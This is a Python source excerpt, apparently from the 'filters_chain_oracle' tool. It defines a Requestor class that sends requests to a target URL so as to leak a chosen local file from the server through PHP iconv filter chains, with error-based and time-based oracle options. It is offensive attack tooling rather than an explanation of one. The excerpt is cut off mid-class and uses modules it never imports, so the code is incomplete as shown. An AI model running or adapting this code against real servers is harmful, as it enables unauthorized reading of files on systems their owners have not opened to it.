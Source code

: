 ```
import base64  # Ensure base64 module is imported
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.utils import merge_dicts
import re

"""
Class Requestor, defines all the request logic.
"""
class Requestor:
    def __init__(self, file_to_leak, target, parameter, data="{}", headers="{}", verb=Verb.POST, in_chain="", proxy=None, time_based_attack=False, delay=0.0, json_input=False, match=False):
        self.file_to_leak = file_to_leak
        self.target = target
        self.parameter = parameter
        self.headers = headers
        self.verb = verb
        self.json_input = json_input
        self.match = match
        print("[*] The following URL is targeted : {}".format(self.target))
        print("[*] The following local file is leaked : {}".format(self.file_to_leak))
        print("[*] Running {} requests".format(self.verb.name))
        if data != "{}":
            print("[*] Additionnal data used : {}".format(data))
        if headers != "{}":
            print("[*] Additionnal headers used : {}".format(headers))
        if in_chain != "":
            print("[*] The following chain will be in each request : {}".format(in_chain))
            in_chain = "|convert.iconv.{}".format(in_chain)
        if match:
            print("[*] The following pattern will be matched for the oracle : {}".format(match))
        self.in_chain = in_chain
        self.data = json.loads(data)
        self.headers = json.loads(headers)
        self.delay = float(delay)
        if proxy :
            self.proxies = {
                'http': f'{proxy}',
                'https': f'{proxy}',
            }
        else:
            self.proxies = None
        self.instantiate_session()
        if time_based_attack:
            self.time_based_attack = self.error_handling_duration()
            print("[+] Error handling duration : {}".format(self.time_based_attack))
        else:
            self.time_based_attack = False
        
    """
    Instantiates a requests session for optimization
    """
    def instantiate_session(self):
        self.session = requests.Session()
        self.session.headers.update(self.headers)
        self.session.proxies = self.proxies
        self.session.verify = False

    def join(self, *x):
        return '|'.join(x)

    """
    Used to see how much time a 500 error takes to calibrate the timing attack
    """
```